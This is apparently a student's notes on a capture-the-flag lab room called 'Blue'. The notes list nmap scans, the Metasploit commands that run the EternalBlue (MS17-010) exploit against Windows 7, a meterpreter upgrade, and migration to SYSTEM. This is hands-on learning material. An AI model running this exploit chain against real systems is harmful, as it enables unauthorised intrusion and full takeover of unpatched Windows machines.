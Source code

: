 # Blue room

Scan and learn what exploit on windows 7 machine (Eternal Blue)

## what was done

Scan with nmap

```sh
nmap -Pn <ip>
nmap -A -T 5 <ip> -vv
nmap --script vuln <ip> -vv
```

gain access with metasploit

```sh
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <ip>
exploit
```

escalate privilage using:

```sh
use multi/manage/shell_to_meterpreter
set session <id_session>
```


## what was learnt

we don't need to open metasploit for inital sacaning

migrate to process NT AUTHORITY\SYSTEM

search for a file in cmd
dir secret.doc /s /p


## tools

